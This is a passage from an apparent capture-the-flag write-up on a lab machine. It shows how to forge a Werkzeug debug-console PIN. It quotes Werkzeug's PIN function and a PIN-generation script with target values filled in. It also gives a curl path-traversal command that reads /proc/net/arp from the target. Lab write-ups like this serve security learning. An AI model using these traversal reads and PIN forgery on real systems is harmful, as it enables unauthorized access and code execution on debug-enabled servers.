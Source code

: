     ...[snip]...
    def get_pin_and_cookie_name(                                                                                                                              
        app: "WSGIApplication",                                                                                                                               
    ) -> t.Union[t.Tuple[str, str], t.Tuple[None, None]]:                        
        """Given an application object this returns a semi-stable 9 digit pin                                                                                 
        code and a random key.  The hope is that this is stable between          
        restarts to not make debugging particularly frustrating.  If the pin     
        was forcefully disabled this returns `None`.                             
                                                                                 
        Second item in the resulting tuple is the cookie name for remembering.   
        """                                                                      
        pin = os.environ.get("WERKZEUG_DEBUG_PIN")                               
        rv = None                                                                
        num = None
    ...[snip]...
    

It’s important to get the version from the target, because there are some
slight differences with what’s shown on HackTricks.

I’ll grab the script from HackTricks and save it on my machine as
`generate_pin.py`. The top has the variables I need to set:

    
    
    import hashlib
    from itertools import chain
    probably_public_bits = [
        'web3_user',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
    ]
    
    private_bits = [
        '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
        'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
    ]
    

I’ve already got all I need for the `probably_public_bits`:

  * `username` is root, as shown in the `supervisoerd.conf` file
  * `modname` and the next one are just `flask.app` and `Flask`
  * The last `probably_public_bits` item is the path from the crash, the same one I used just above to get the location of the debug `__init__.py`.

To get the MAC address, `/proc/net/arp` will return it:

    
    
    oxdf@hacky$ curl --path-as-is --ignore-content-length http://10.10.11.164/uploads/..//proc/net/arp
    IP address       HW type     Flags       HW address            Mask     Device
    172.17.0.1       0x1         0x2         02:42:90:98:18:9e     *        eth0
    

I need `--ignore-content-length` because the content length on some of these
files is off, and it can lead to missing information, as shown in [this quick
video](https://www.youtube.com/watch?v=Cife4ejJGlo):
